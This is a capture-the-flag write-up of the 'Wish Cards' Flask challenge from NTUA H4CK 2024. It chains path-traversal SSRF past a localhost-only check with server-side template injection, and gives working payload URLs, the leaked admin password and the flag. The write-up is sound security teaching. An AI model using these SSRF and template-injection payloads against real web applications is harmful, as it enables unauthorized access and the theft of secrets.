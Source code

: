 ```yaml
---
layout: post
title: "Wish Cards"
description: from NTUA H4CK 2024
# img: assets/img/12.jpg
date: 2024-12-20 10:14:00-0000
category: web
related_posts: false
---
```


***
You can download all challenge files from [here](https://github.com/Thread-in-the-Needle/NTUAH4CK-3.0/tree/main/web/wish-cards/src) and run the application locally.

***
## Basic Functionality
- The challenge involves a `Flask` web app.
- The app allows users to choose a picture as a template and generates a Christmas card with a random wish sourced from `data.py`.
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards1.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards2.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

- Additionally, there's an option to create a <u>custom card</u> with a personalized message, but this feature is **restricted to localhost requests only**.
<div class="row mt-3">
    <div class="col-10 mt-3 mt-md-0" style="max-width: fit-content; margin-left: auto; margin-right: auto;">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards3.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

- The following code enforces this restriction:

```python
def local(f):
    @wraps(f)
    def check(*args, **kwargs):
        if request.remote_addr != '127.0.0.1':
            return render_template('error.html', error= 'Sorry, this page is not available for the public 🥲')
        return f(*args, **kwargs)
    return check
```

## How to get the flag
- Upon reviewing the code, I discovered that the flag can be obtained by sending a request to `/admin-card`. However, two conditions must be met:
  - We need the admin password
  - We must bypass the same localhost restriction as the custom card functionality.

```python
try:    secret_wish = open('flag.txt','r').read().strip()
except: secret_wish='NH4CK{secrettttt}'

@app.route('/admin-card')
@local
def admin():
    passw = request.args.get('pass', '')
    if passw != ADMINPASS:
        return render_template('error.html', error= 'Urm, wrong password ❌')
    secret_card = make_card('colors.png', wish= f'Merry Xmas, don\'t share my secret: {secret_wish}')
    return send_file(io.BytesIO(secret_card), mimetype= 'image/png', as_attachment= True, download_name= 'flag.png')
```

## Getting the admin password
- I noticed that the admin pass is loaded in a global variable in `util.py`.

```python
try:    ADMINPASS = open('adminpass.txt').read().strip()
except: ADMINPASS = 'adminpass'
```

- I also noticed that when a custom card is generated, the custom wish is is directly rendered into the template **without any sanitization**.

{% raw %}
```python
def generate_card_html(b64_image, wish):
    card_html = f'''
    <html>
    <head>
        <style>
            .card {{
                width: 800px;
                height: 600px;
                background-image: url(data:image/png;base64,{b64_image});
                background-size: cover;
                display: flex;
                align-items: center;
                justify-content: center;
                color: white;
                font-size: 20px;
                text-align: center;
                padding: 10px;
                box-shadow: 0 4px 8px rgba(0, 0, 0, 0.2);
                border-radius: 10px;
            }}
        </style>
    </head>
    <body>
        <div class="card">
            {wish}
        </div>
    </body>
    </html>
    '''
    return render_template_string(card_html, **globals())
```
{% endraw %}

- This suggested an [SSTI](https://portswigger.net/web-security/server-side-template-injection) **vulnerability** . By exploiting it, I could potentially extract the admin password using a payload like {% raw %}`{{ADMINPASS}}`{% endraw %}. The only problem was the localhost restriction.
- I assumed that there has to be an [SSRF](https://portswigger.net/web-security/ssrf) vulnerability as well, that would allow us to **force the server to make requests on behalf of us**.

## SSRF vulnerability
- The `make_card` function looked very promising because:
  - The server **fetches** images by making **HTTP requests to itself**.
  - it concatenates a **user-controlled input** into the url string.

```python
def make_card(img: str, wish= ''):
    if not img or not img.endswith('.png'):
        return None
    if any([c in wish for c in '<>%_&"\\()']): # these may crash something
        return None
    
    if not wish:
        wish = get_wish()
    
    img_b64 = img_from_url(f'http://127.0.0.1:1337/static/images/{img}')
    if not img_b64:
        return None
    card_html = generate_card_html(img_b64,wish)
    as_pic = imgkit.from_string(card_html, False, options= {'format': 'png', 'quiet': '', 'crop-h': '1000', 'crop-w': '800'})
    return as_pic
```

- Firstly I checked if I could control the server's request URL with **path traversal**. I tried:
```
http://localhost:1337/cards?image=../../static/images/green.png
```
- The response was a **normal card** with the requested background **without any errors**. So, I confirmed that indeed I can control it.

- Next, I tried creating a **custom card** to see if I could **bypass** the localhost restriction:
```
http://localhost:1337/cards?image=../../custom-cards?wish=MyCustomWish%26image=green.png
```
- Notice that the `image` parameter of the SSRF request **should be second**, because the server checks if it ends with `.png`.
<div class="row mt-3">
    <div class="col-9 mt-3 mt-md-0" style="max-width: fit-content; margin-left: auto; margin-right: auto;">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards4.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

- And yes, my custom wish was **rendered successfully**. A random wish was also included, as the initial request was for a regular card, while using the rendered custom card as background.

- To **confirm the SSTI** vulnerability, I used the following request that rendered number `49`.
```
http://localhost:1337/cards?image=../../custom-cards?wish={% raw %}{{7*7}}{% endraw %}%26image=green.png
```
<div class="row mt-3">
    <div class="col-9 mt-3 mt-md-0" style="max-width: fit-content; margin-left: auto; margin-right: auto;">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards5.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

- And finally used {% raw %}`{{ADMINPASS}}`{% endraw %} to get the admin pass.
```
http://localhost:1337/cards?image=../../custom-cards?wish={% raw %}{{ADMINPASS}}{% endraw %}%26image=green.png
```
<div class="row mt-3">
    <div class="col-9 mt-3 mt-md-0" style="max-width: fit-content; margin-left: auto; margin-right: auto;">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards7.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

## Final payload to get the flag
- With the admin password in hand and a bypass for the localhost restriction, I could issue a request to the `/admin-card` endpoint and retrieve the flag:
```
http://localhost:1337/cards?image=../../admin-card?pass=adminpass%26fake=.png
```
- Again, the `image` parameter must end with `.png`, so I appended an arbitrary parameter.
- During the competition, the live server’s admin password was `GOD_INTERN!` so the final payload was:
```
/cards?image=../../admin-card?pass=GOD_INTERN!%26fake=.png
```
- And the real flag was:
```
NH4CK{y37.4n07h3r.w15h.c4rd}
```
<div class="row mt-3">
    <div class="col-9 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards8.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>